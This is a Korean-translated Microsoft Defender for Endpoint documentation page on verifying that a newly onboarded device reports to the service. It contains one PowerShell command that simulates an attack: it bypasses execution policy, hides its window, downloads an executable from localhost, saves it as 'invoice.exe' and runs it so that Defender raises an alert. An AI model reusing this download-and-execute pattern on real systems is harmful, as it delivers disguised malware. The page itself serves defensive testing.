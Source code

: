 ```yaml
---
title: 새로 온보딩된 엔드포인트 디바이스용 Microsoft Defender에서 검색 테스트 실행
description: 새로 온보딩된 장치에서 검색 스크립트를 실행하여 끝점용 Microsoft Defender 서비스에 제대로 온보딩되었는지 확인합니다.
keywords: 검색 테스트, 감지, powershell, 스크립트, 확인, 온보딩, 끝점 온보딩에 대한 Microsoft Defender, 클라이언트, 서버, 테스트
search.product: eADQiWindows 10XVcnh
search.appverid: met150
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
ms.author: macapara
author: mjcaparas
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- m365-security-compliance
- m365initiative-defender-endpoint
ms.topic: article
ms.technology: mde
ms.openlocfilehash: 10090fdd1dff6b020d06c82afa8456d7a157ff91
ms.sourcegitcommit: 4fb1226d5875bf5b9b29252596855a6562cea9ae
ms.translationtype: MT
ms.contentlocale: ko-KR
ms.lasthandoff: 06/08/2021
ms.locfileid: "52843309"
---
```

# <a name="run-a-detection-test-on-a-newly-onboarded-microsoft-defender-for-endpoint-device"></a><span data-ttu-id="fe3df-104">새로 온보딩된 엔드포인트 디바이스용 Microsoft Defender에서 검색 테스트 실행</span><span class="sxs-lookup"><span data-stu-id="fe3df-104">Run a detection test on a newly onboarded Microsoft Defender for Endpoint device</span></span> 

[!INCLUDE [Microsoft 365 Defender rebranding](../../includes/microsoft-defender.md)]


<span data-ttu-id="fe3df-105">**적용 대상:**</span><span class="sxs-lookup"><span data-stu-id="fe3df-105">**Applies to:**</span></span>
- <span data-ttu-id="fe3df-106">지원 Windows 10 버전</span><span class="sxs-lookup"><span data-stu-id="fe3df-106">Supported Windows 10 versions</span></span>
- <span data-ttu-id="fe3df-107">Windows Server 2012 R2</span><span class="sxs-lookup"><span data-stu-id="fe3df-107">Windows Server 2012 R2</span></span>
- <span data-ttu-id="fe3df-108">Windows Server 2016</span><span class="sxs-lookup"><span data-stu-id="fe3df-108">Windows Server 2016</span></span>
- <span data-ttu-id="fe3df-109">Windows 서버, 버전 1803</span><span class="sxs-lookup"><span data-stu-id="fe3df-109">Windows Server, version 1803</span></span>
- <span data-ttu-id="fe3df-110">Windows Server, 2019</span><span class="sxs-lookup"><span data-stu-id="fe3df-110">Windows Server, 2019</span></span>
- <span data-ttu-id="fe3df-111">[엔드포인트용 Microsoft Defender](https://go.microsoft.com/fwlink/?linkid=2154037) </span><span class="sxs-lookup"><span data-stu-id="fe3df-111">[Microsoft Defender for Endpoint](https://go.microsoft.com/fwlink/?linkid=2154037)</span></span>
- [<span data-ttu-id="fe3df-112">Microsoft 365 Defender</span><span class="sxs-lookup"><span data-stu-id="fe3df-112">Microsoft 365 Defender</span></span>](https://go.microsoft.com/fwlink/?linkid=2118804)

> <span data-ttu-id="fe3df-113">끝점용 Microsoft Defender를 경험하고 싶나요?</span><span class="sxs-lookup"><span data-stu-id="fe3df-113">Want to experience Microsoft Defender for Endpoint?</span></span> [<span data-ttu-id="fe3df-114">무료 평가판에 등록합니다.</span><span class="sxs-lookup"><span data-stu-id="fe3df-114">Sign up for a free trial.</span></span>](https://www.microsoft.com/microsoft-365/windows/microsoft-defender-atp?ocid=docs-wdatp-exposedapis-abovefoldlink)

<span data-ttu-id="fe3df-115">새로 온보딩된 장치에서 다음 PowerShell 스크립트를 실행하여 끝점용 Defender 서비스에 올바르게 보고하고 있는지 확인합니다.</span><span class="sxs-lookup"><span data-stu-id="fe3df-115">Run the following PowerShell script on a newly onboarded device to verify that it is properly reporting to the Defender for Endpoint service.</span></span>

1. <span data-ttu-id="fe3df-116">폴더 만들기: 'C:\test-MDATP-test'.</span><span class="sxs-lookup"><span data-stu-id="fe3df-116">Create a folder:  'C:\test-MDATP-test'.</span></span>
2. <span data-ttu-id="fe3df-117">디바이스에서 상승된 명령줄 프롬프트를 열고 스크립트를 실행합니다.</span><span class="sxs-lookup"><span data-stu-id="fe3df-117">Open an elevated command-line prompt on the device and run the script:</span></span>

   1. <span data-ttu-id="fe3df-118">**시작**(으)로 이동하고 **cmd** 를 입력하십시오.</span><span class="sxs-lookup"><span data-stu-id="fe3df-118">Go to **Start** and type **cmd**.</span></span>

   1. <span data-ttu-id="fe3df-119">명령 **프롬프트를 마우스 오른쪽 단추로 클릭하고** **관리자 권한으로 실행을 선택합니다.**</span><span class="sxs-lookup"><span data-stu-id="fe3df-119">Right-click **Command Prompt** and select **Run as administrator**.</span></span>

      ![관리자 권한으로 실행을 설정하는 창 시작 메뉴](images/run-as-admin.png)

3. <span data-ttu-id="fe3df-121">프롬프트에서 다음 명령을 복사하여 실행합니다.</span><span class="sxs-lookup"><span data-stu-id="fe3df-121">At the prompt, copy and run the following command:</span></span>

   ```powershell
   powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe');Start-Process 'C:\\test-MDATP-test\\invoice.exe'
   ```

<span data-ttu-id="fe3df-122">명령 프롬프트 창이 자동으로 닫히게 됩니다.</span><span class="sxs-lookup"><span data-stu-id="fe3df-122">The Command Prompt window will close automatically.</span></span> <span data-ttu-id="fe3df-123">성공하면 검색 테스트가 완료된 것으로 표시하고 약 10분 후 온보드 장치에 대한 새 경고가 포털에 표시됩니다.</span><span class="sxs-lookup"><span data-stu-id="fe3df-123">If successful, the detection test will be marked as completed and a new alert will appear in the portal for the onboarded device in approximately 10 minutes.</span></span>

## <a name="related-topics"></a><span data-ttu-id="fe3df-124">관련 항목</span><span class="sxs-lookup"><span data-stu-id="fe3df-124">Related topics</span></span>
- [<span data-ttu-id="fe3df-125">그룹 정책을 통한 Windows 10 장치 온보딩</span><span class="sxs-lookup"><span data-stu-id="fe3df-125">Onboard Windows 10 devices</span></span>](configure-endpoints.md)
- [<span data-ttu-id="fe3df-126">서버 온보드</span><span class="sxs-lookup"><span data-stu-id="fe3df-126">Onboard servers</span></span>](configure-server-endpoints.md)
- [<span data-ttu-id="fe3df-127">끝점 온보딩 문제에 대한 Microsoft Defender 문제 해결</span><span class="sxs-lookup"><span data-stu-id="fe3df-127">Troubleshoot Microsoft Defender for Endpoint onboarding issues</span></span>](/microsoft-365/security/defender-endpoint/troubleshoot-onboarding)

